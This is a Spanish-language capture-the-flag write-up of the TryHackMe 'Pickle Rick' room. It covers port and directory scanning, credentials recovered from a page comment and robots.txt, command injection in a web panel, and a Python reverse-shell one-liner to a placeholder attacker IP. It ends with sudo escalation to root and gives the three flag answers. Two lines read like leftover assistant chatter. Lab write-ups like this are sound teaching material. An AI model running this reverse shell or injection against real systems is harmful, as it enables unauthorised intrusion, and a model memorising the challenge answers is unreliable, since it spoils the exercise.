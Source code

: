 

# Writeup: Pickle Rick

![Banner de Pickle Rick](images/pickle_banner.png)

**Pickle Rick** es un desafío de nivel **Fácil** de la plataforma **TryHackMe**. En este writeup, documento los pasos que seguí para obtener acceso al sistema, escalar privilegios y encontrar los 3 ingredientes.

---

## 📊 Datos Esenciales

- **IP de la Máquina:** `10.10.220.243`
- **Sistema Operativo:** `Linux`
- **Tipo de Máquina:** `[ej. Web, Forense, Reversing]`
- **Banderas:** `[ej. user.txt, root.txt]`
- **Tiempo de Resolución:** `30 min`

---

## 🕵️‍♂️ Fase 1: Reconocimiento y Enumeración

El primer paso fue realizar un escaneo de puertos para identificar los servicios activos en la máquina. Utilicé `nmap` con los siguientes parámetros para un escaneo de versiones y scripts:
```bash
nmap -p- --open -sS -sC -sV --min-rate 2000 -n -vvv -Pn 10.10.220.243 -oN escaneo
```

El escaneo inicial con **Nmap** confirmó que la máquina está en línea y reveló los siguientes puertos abiertos:

* **Puerto 22 (SSH)**
    * **Servicio:** OpenSSH 8.2p1

* **Puerto 80 (HTTP)**
    * **Servicio:** Apache httpd 2.4.41
    * **Título del sitio:** "Rick is sup4r cool"
  
**Análisis del Sitio Web (Puerto 80)**
Al navegar a la dirección IP, se encontró un sitio web con temática de **Rick y Morty**. La página principal mostraba una imagen y un mensaje de ayuda de Rick para Morty.

![alt](images/1png.png)

Al inspeccionar el **código fuente** de la página (presionando `Ctrl + U`), se descubrió un comentario oculto.

![alt](images/2.png)

Este comentario revelaba una nota para un usuario, proporcionando una pista valiosa:

Con esta información, hemos obtenido un posible nombre de usuario: `RickRu13s`. Este dato será crucial para la siguiente fase de enumeración.

-----

### **Enumeración de Directorios con Gobuster**

Para continuar con el reconocimiento del sitio web, utilicé la herramienta **Gobuster** para buscar directorios y archivos ocultos. Esto nos ayuda a encontrar posibles puntos de entrada que no son visibles a simple vista. El comando ejecutado fue:

```bash
gobuster dir -u http://10.10.220.243/ -t 200 -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -x txt,py,php,sh
```

El escaneo de Gobuster reveló varios directorios y archivos de interés:

  * **/login.php** (Status: 200)
  * **/assets/** (Status: 301)
  * **/portal.php** (Status: 302)
  * **/robots.txt** (Status: 200)

De estos hallazgos, el archivo **`/robots.txt`** captó mi atención. Al navegar a esa dirección en el navegador, encontré un texto plano que resultó ser una contraseña.

-----

### **Obtención de Credenciales y Acceso**

Con un nombre de usuario y una contraseña en mano, me dirigí a la página de inicio de sesión que habíamos encontrado previamente: **`/login.php`**.

  * **Usuario:** `RickRu13s` (obtenido del código fuente de la página principal)
  * **Contraseña:** `Wubbalubbadubdub` (encontrada en el archivo `robots.txt`)

Al introducir estas credenciales, logré acceder al sistema, lo que marca el final de la fase de enumeración y el inicio de la explotación.

-----

## 💥 Fase 2: Explotación y Acceso Inicial

Una vez con las credenciales, inicié sesión en la página **`/login.php`** y fui redirigido a una nueva sección: **`portal.php`**. Esta página presentaba un "Panel de Comandos" con un campo de texto para ejecutar comandos.

![alt](images/3.png)

Esta interfaz sugería una vulnerabilidad de **inyección de comandos**. Para confirmar esto y obtener acceso al sistema, decidí ejecutar una **reverse shell**.

  * **Reverse Shell:** Usando una *reverse shell*, un atacante puede hacer que la máquina víctima se conecte a la suya, dándole un control completo sobre el sistema.

Para lograrlo, primero abrí un *listener* en mi máquina atacante con `netcat` en el puerto `4444`.

```bash
nc -lvnp 4444
```

Luego, en el "Panel de Comandos" de la máquina víctima, ejecuté un *payload* de *reverse shell* de Python.

**⚠️ Aclaración:** Es crucial que modifiques el comando de la *reverse shell* para reemplazar `<TU_IP_ATACANTE>` con la dirección IP de tu máquina. En este tipo de ejercicios, a menudo se usa la IP de la interfaz **`tun0`**.

```bash
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<TU_IP_ATACANTE>",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);import pty; pty.spawn("bash")'
```
![alt](images/4.png)
Después de ejecutar el comando, recibí una conexión en mi *listener* de `netcat`, lo que me dio una *shell* con el usuario **`www-data`**. Ahora, el objetivo es encontrar los tres ingredientes y, finalmente, escalar privilegios para obtener el control total.
![alt](images/5.png)

---

## 🔎 Fase 3: Post-Explotación y Enumeración del Sistema

Una vez que obtuvimos la *shell* inicial, lo siguiente es estabilizarla. La *shell* de `netcat` es muy básica y carece de funcionalidades importantes como la autocompletación o el historial de comandos. Para mejorar la experiencia, haremos un tratamiento de **TTY** (TeleTypewriter).

Para lograr una **TTY** estable, seguí estos pasos en orden:

  * Ejecuté el siguiente comando para generar una *shell* de bash:

    ```bash
    script /dev/null -c bash
    ```

  * Luego, presioné `Ctrl + Z` para suspender el proceso.

  * A continuación, en mi máquina atacante, ejecuté este comando para manejar las opciones del terminal:

    ```bash
    stty raw -echo; fg
    ```

  * Después de esto, escribí el comando `reset xterm`, aunque no fuera visible en la pantalla.

  * Finalmente, terminé de configurar las variables del entorno para una *shell* completamente funcional:

    ```bash
    export TERM=xterm
    export SHELL=bash
    ```

Con estos pasos, la *shell* quedó completamente interactiva y estable, lo que nos permitió empezar la fase de post-explotación para enumerar el sistema y buscar los tres ingredientes.

No hay problema. Aquí tienes el texto ajustado con el contenido del archivo, listo para que lo uses en tu *write-up*.

-----

### 🧪 Ingrediente 1: El Archivo Secreto

Una vez que la *shell* estuvo estabilizada, el primer paso fue enumerar el sistema de archivos para buscar pistas. Al ejecutar el comando **`ls -la`**, se listaron los archivos en el directorio actual.

```bash
ls -la
```

Entre los archivos, encontramos uno con un nombre bastante sospechoso: **`Sup3rS3cretPickl3Ingred.txt`**. ¡Este parecía ser el primer ingrediente\!

Para ver su contenido, utilicé el comando **`cat`**:

```bash
cat Sup3rS3cretPickl3Ingred.txt
```

El contenido del archivo era **`mr. meeseek hair`**, el cual fue validado exitosamente en la plataforma de **TryHackMe**.
Aquí tienes la versión completa, incluyendo la validación en TryHackMe.

-----

### 🧪 Ingrediente 2: El Directorio de Rick

Para encontrar el segundo ingrediente, el siguiente paso fue buscar en el directorio de usuario de Rick. Me dirigí a la ruta **`/home/rick`** y, al ejecutar un comando `ls`, encontré el archivo que estaba buscando: `second ingredients`.

```bash
cd /home/rick
ls -la
```

Al igual que con el primer ingrediente, usé el comando `cat` para ver el contenido del archivo.

```bash
cat "second ingredients"
```

El contenido del archivo era **`1 jerry tear`**, lo que me proporcionó el segundo ingrediente necesario y fue validado exitosamente en la plataforma de **TryHackme**.

-----

### 🧪 Ingrediente 3: El Directorio de Root

El último paso para encontrar el tercer ingrediente fue escalar privilegios. Utilicé el comando `sudo -l` para verificar qué comandos podía ejecutar el usuario `www-data` como superusuario. La salida del comando mostró una configuración crucial: `(ALL) NOPASSWD: ALL`. Esto significa que el usuario **`www-data`** puede ejecutar **cualquier comando** como **cualquier usuario** sin necesidad de una contraseña.
![alt](images/6.png)
Aprovechando esta configuración, escalé privilegios al usuario **`root`** con el siguiente comando:

```bash
sudo su
```

Una vez con permisos de root, me dirigí al directorio **`/root`**, donde encontré un archivo llamado **`3rd.txt`**.

```bash
cd /root
ls -la
```

Al igual que con los ingredientes anteriores, usé el comando `cat` para ver su contenido. El contenido del archivo era **`fleeb juice`**, lo que me proporcionó el tercer y último ingrediente necesario para completar la máquina.
